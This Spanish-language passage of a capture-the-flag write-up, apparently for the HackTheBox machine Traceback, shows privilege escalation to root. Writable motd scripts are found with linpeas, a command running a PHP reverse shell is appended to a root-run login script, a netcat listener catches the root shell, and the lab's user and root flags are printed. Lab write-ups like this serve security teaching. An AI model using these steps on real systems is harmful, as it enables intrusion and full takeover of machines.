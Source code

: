 ```console
```
---

Corriendo `linpeas.sh` aparece que algunos `motd` que corren con privilegio de **root** son modificables por **sysadmin**, además esos motd se corren en el momento que se inicia sesión.

```console
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/dev/mqueue/linpeas.txt
```

Así que para ahorrar un poco de tiempo agrego la ejecución del reverse shell de php que use para la conexión original al archivo `/etc/update-motd.d/00-header`. Si todo sale bien en el momento que me loguee de nueso por ssh se tiene que ejecutar el script y recibir la shell reversa con privilegios de root.

> `echo 'php /var/www/html/shell.php' >> /etc/update-motd.d/00-header`

> `netcat -lnvp 443`

```console
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:33756.
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:06:28 up 15:26,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.10.14.23      06:33    4.00s  0.24s  0.24s /bin/bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
Exito!!

## **Flags**
---

```console
cat user.txt
f122d3efed03f97fd6aeb72e86b5f98c

cat root.txt
f6d0f67845059e777d8d06be952c93bb
```

---